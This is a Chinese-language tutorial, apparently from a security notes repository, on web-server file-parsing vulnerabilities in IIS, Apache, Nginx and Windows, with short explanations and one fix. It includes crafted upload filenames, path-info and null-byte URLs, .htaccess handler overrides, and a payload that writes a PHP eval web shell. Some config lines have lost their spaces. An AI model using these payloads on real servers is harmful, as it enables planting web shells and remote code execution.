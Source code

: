 # 文件解析漏洞

* [文件解析漏洞](#文件解析漏洞)
  * [漏洞简介](#漏洞简介)
  * [IIS解析漏洞](#iis解析漏洞)
    * [IIS6\.0](#iis60)
        * [目录解析](#目录解析)
        * [文件解析](#文件解析)
        * [后缀名解析](#后缀名解析)
    * [IIS7\.5](#iis75)
  * [Apache文件解析漏洞](#apache文件解析漏洞)
    * [<strong>CVE\-2017\-15715</strong>](#cve-2017-15715)
    * [多后缀](#多后缀)
    * [conf配置](#conf配置)
    * [罕见后缀](#罕见后缀)
    * [\.htaccess](#htaccess)
  * [Nginx文件解析漏洞](#nginx文件解析漏洞)
    * [解析漏洞](#解析漏洞)
    * [空字节代码执行漏洞](#空字节代码执行漏洞)
  * [Windows解析漏洞](#windows解析漏洞)

------

## 漏洞简介

```php
 文件解析漏洞,是指Web容器（Apache、Nginx、IIS等）在解析文件时将文件解析成脚本文件格式并得以执行而产生的漏洞。从而,黑客可以利用该漏洞实现非法文件的解析。
原理: 服务器默认会把.asp，.asa目录下的文件都解析成asp文件。
```

------

## IIS解析漏洞

### IIS6.0

##### 目录解析

```php
当新建一个以asp结尾的目录时，在该目录中的所有文件都会以asp后缀名去解析，如：shell.asp/shell.jpg，IIS会将shell.asp目录中的shell.jpg当做asp来解析
```

##### 文件解析

```php
/xx.asp;.jpg /xx.asp:.jpg
原理：服务器默认不解析;号后面的内容，因此xx.asp;.jpg便被解析成asp文件了。
```

##### 后缀名解析

```php
在IIS6中，默认会将以下四种后缀名当成asp来进行解析
asp、asa、cer、cdx
```

### IIS7.5

```php
在默认Fast-CGI开启状况下，访问以下网址，服务器将把xx.jpg文件当做php解析并执行。可以根据请求 /xx.jpg 和 /xx.jpg/.php 时返回的 Content-type 是否不同来判断是否存在漏洞。
http://www.xxx.com/xx.jpg/notexist.php
修复：php 配置文件中 cgi.fix_pathinfo=0，将不再递归查询路径确认文件的合法性。这个往前递归的功能原本是想解决 /info.php/test 这种url，能够正确解析到 info.php 上。
```



------

## Apache文件解析漏洞

### **CVE-2017-15715**

Apache版本在2.4.0到2.4.29

```php
在默认配置下, "上传"一个带"换号符"的php文件上去，使用http://ip/test.php%0a访问，可直接解析PHP内容。
```



### 多后缀

Apache1.x和2.x 解析文件的规则是从右到左开始判断解析,如果后缀名为不可识别文件解析,就再往左判断。



### conf配置

1、如果在 Apache 的 conf 里有这样一行配置 `AddHandler php5-script .php` 这时只要文件名里包含 .php 即使文件名是 test2.php.jpg 也会以 php 来执行。

2、如果在 Apache 的 conf 里有这样一行配置 `AddType application/x-httpd-php .jpg`即使扩展名是 jpg，一样能以 php 方式执行。



### 罕见后缀

Apache 配置文件中会有`.+.ph(p[345]?|t|tml)`此类的正则表达式，被当 php 程序执行的文件名要符合正则表达式，否则就算 Apache 把某文件当 php 程序，php 自己不认它，也是无用。

也就是说`php3，php4，php5，pht，phtml`也是可以被解析的。



### .htaccess

要想使 `.htaccess` 文件生效，需要两个条件:

**一是在 Apache 的配置文件中写上：**

```php
AllowOverrideAll
```

若这样写则 `.htaccess` 不会生效：

```php
AllowOverrideNone
```

**二是 Apache 要加载 mod_Rewrite 模块。加载该模块，需要在 Apache 的配置文件中写上：**

```php
LoadModulerewrite_module/usr/lib/apache2/modules/mod_rewrite.so
```

若是在 Ubuntu 中，可能还需要执行命令：

```php
sudoa2enmod rewrite
```

配置完后需要重启 Apache。

**如在 `.htaccess` 文件中写入：**

```php
AddTypeapplication/x-httpd-php xxx
```

就成功地使该 `.htaccess` 文件所在目录及其子目录中的后缀为 .xxx 的文件被 Apache 当做 php 文件。

还有一种写法：

```php
<FilesMatch"shell.jpg">
 SetHandlerapplication/x-httpd-php
</FilesMatch>
```



------

## Nginx文件解析漏洞

### 解析漏洞

漏洞原理参考：https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html

![image-20211128210942067](image/文件解析漏洞/image-20211128210942067.png)

所以下面两种写法都会将1.jpg当作PHP来解析

```php
www.xxxx.com/UploadFiles/image/1.jpg/1.php  
www.xxxx.com/UploadFiles/image/1.jpg/%20\0.php
```

另外一种手法：上传一个名字为 test.jpg，以下内容的文件:

```php
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>
```

然后访问 `test.jpg/.php`, 在这个目录下就会生成一句话木马 shell.php。



### 空字节代码执行漏洞

恶意用户发出请求`http://example.com/file.ext％00.php`就会将 `file.ext` 作为 PHP 文件解析。





------

## Windows解析漏洞

经过查资料，目前发现在系统层面，有以下特性可以被上传漏洞所利用。

- Windows 下文件名不区分大小写，Linux下文件名区分大写
- Windows 下 ADS 流特性，导致上传文件 xxx.php::$DATA = xxx.php
- Windows 下文件名结尾加入`.`、`空格`、`<`、`>`、`>>>`、`0x81-0xff`等字符，最终生成的文件均被 windows 忽略。



参考文章：

https://cloud.tencent.com/developer/article/1728674

https://ca01h.top/Web_security/basic_learning/25.%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%96%87%E4%BB%B6%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E%E8%AE%B0%E5%BD%95/#0x03-Nginx%E6%96%87%E4%BB%B6%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E



## 